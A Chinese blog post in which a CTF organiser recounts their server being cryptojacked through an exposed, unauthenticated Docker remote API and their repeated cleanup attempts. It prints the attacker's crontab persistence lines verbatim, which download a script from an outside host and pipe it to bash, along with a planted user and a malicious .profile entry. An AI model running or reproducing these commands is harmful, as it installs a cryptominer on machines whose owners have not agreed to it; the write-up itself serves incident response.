


# 前言

最近在办新生赛，一天晚上突然发现题目环境打不开了，进去一看发现cpu%100，瞅了一眼阿里云发现了各种警报，才知道是被挖矿了。一开始没太在意，因为是放了shell的题目，猜测可能是有新生拿我docker容器挖矿，直到今天早上起床后发现凌晨4点还在被攻击我才意识到应该不是新生。再上去瞅了一眼发现定时任务不是docker里的，是我vps主机上的，才意识到GGGGGGGGG了。


# 攻击方式

学长猜测可能是docker未授权这样的，然后发我了一张图片：




我仔细的查了一下，查到了这篇文章：

https://cloud.tencent.com/developer/article/1744943

考虑到之前弄ctfd的whale的插件的时候，弄过docker swarm，再加上昨天早上好像把1-30000端口全都给开了，所以猜测可能确实是这个个docker remote api未授权打进来的。

测试了一下：



打通了，得。。。。确实是这个2375端口的问题。


# 修复

首先我先去宝塔和阿里云上面把端口给管了，10000以内的端口以后还是别乱开。

然后就是定时任务这里：

```shell
root@iZbp14tgce8absspjkxi3iZ:~# crontab -l
*/30 * * * * /usr/bin/cdz -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh | bash > /dev/null 2>&1
You have new mail in /var/mail/root
root@iZbp14tgce8absspjkxi3iZ:~#

```

得先把这个定时任务给删掉，但是没删掉：

```shell
root@iZbp14tgce8absspjkxi3iZ:~# crontab -r
/var/spool/cron/: unlink: Permission denied
```

想去chattr改，发现包括chattr在内的很多命令都没了，安装但是似乎不管用，所以删除再装：

```shell
apt-get remove e2fsprogs
apt-get install e2fsprogs
root@iZbp14tgce8absspjkxi3iZ:/home/lsb/.ssh# chattr
Usage: chattr [-RVf] [-+=aAcCdDeijsStTu] [-v version] files...
```


接下来就是删定时任务了。查看`/etc/crontab`发现挖矿脚本：

```shell
root@iZbp14tgce8absspjkxi3iZ:/home/lsb/.ssh# cat /etc/crontab
* * * * * root curl http://199.19.226.117/b2f628/cronb.sh|bash
*/5 * * * * root (apk update;apk add wget curl;yum update ;yum remove wget curl;yum install -y wget curl;apt-get update;apt-get remvoe wget curl ;apt-get install wget curl;);(curl -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh||cd1 -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh|| cdz -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh|| wget -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh || wdz -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh || wd1 -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh )|bash

```

`/var/spool/cron/`下面也是一堆。

删还删不掉，那直接vim把里面的内容写为空，没权限就`chattr -iae xxxx`，然后再弄就可以了，就把定时任务杀掉了。


查看一下`docker ps -a`，发现多出来了这么两个docker容器：

```shell
CONTAINER ID        IMAGE                         COMMAND                  CREATED             STATUS                           PORTS                                            NAMES
0e33c16bfb21        docker72590/apache            "/bin/bash -c './ini…"   5 hours ago         Exited (137) About an hour ago                                                    naughty_bassi
fae36a1fbed5        docker72590/apache            "/bin/bash -c './ini…"   22 hours ago        Exited (137) About an hour ago                                                    distracted_galileo
```

给删掉。


查看一下`/etc/passwd`，发现多了这么个lsb用户：

```
lsb:x:1000:1000::/home/lsb:/bin/bash
```

把这用户给删除掉：

```shell
userdel -r lsb
```

把`authorized_keys`文件也给清一下。包括root和lsb的。如果没权限，处理方式同定时任务。


在lsb用户下面的`.profile`文件发现了恶意的东西：

```shell
root@iZbp14tgce8absspjkxi3iZ:/home/lsb# cat .profile
/var/tmp/.../.ddns.sh >/dev/null 2>&1
```


也都给删掉。


然后最后杀进程了，点top，排最上面的那几个，之前阿里云警报的时候也看到过，关键的就是httpd,crypto,ddns,pnscan这些，分别`find / -name *xxx*`找到文件，然后都给删掉，进程也都拿PID给杀掉。

然后重启服务器，发现进程还有，再找，再删，重复2遍基本上就删的差不多了（指的是top命令列出来的进程占用cpu都基本 不超过%1了）。查的时候还发现可能top命令会被改，也可以用`busybox top`来查看。


然后啊，啪的一下，很快啊，上面我修改过的所有东西全都复原了啊！！！命令又全都没有了啊！！！又开始挖矿了啊！好啊！行啊，我赶紧上了阿里云领了个旗舰版容器安全，全面杀毒修复，啪的一下就好了啊！


过了一段时间就又G了！怕了怕了，告辞。
